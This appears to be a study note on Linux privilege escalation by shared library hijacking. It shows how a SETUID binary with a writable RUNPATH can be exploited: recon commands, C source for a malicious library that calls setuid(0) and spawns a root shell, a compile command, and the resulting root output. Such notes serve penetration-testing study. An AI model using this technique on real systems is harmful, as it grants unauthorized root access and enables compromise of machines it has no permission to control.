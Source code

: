 
### **Overview**

- Occurs when a binary loads a **shared library** from a user-controlled location.
- Misconfigurations like **world-writable custom library paths** and weak **RUNPATH** settings can lead to privilege escalation.
- Exploitable in **SETUID** binaries that call custom or missing library functions.

---

### **Vulnerable Binary Example**
```bash
ls -la payroll
# -rwsr-xr-x 1 root root 16728 payroll
```

```bash
ldd payroll
# libshared.so => /development/libshared.so
```

- Binary depends on a **non-standard shared library**: `libshared.so`    
- Runpath set to a **writable folder**:

```bash
readelf -d payroll | grep PATH
# RUNPATH => /development
```

---

### **Exploit Setup**

1. **Verify writable path**:
```bash
ls -la /development/
# drwxrwxrwx
```

2. **Determine required function**:
```bash
./payroll
# Error: undefined symbol: dbquery
```

3. **Craft malicious shared object**:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
}
```

4. **Compile the shared object**:
```bash
gcc src.c -fPIC -shared -o /development/libshared.so
```

---

### **Exploit Execution**
```bash
./payroll
# Output:
# Malicious library loaded
# Root shell opened

id
# uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
```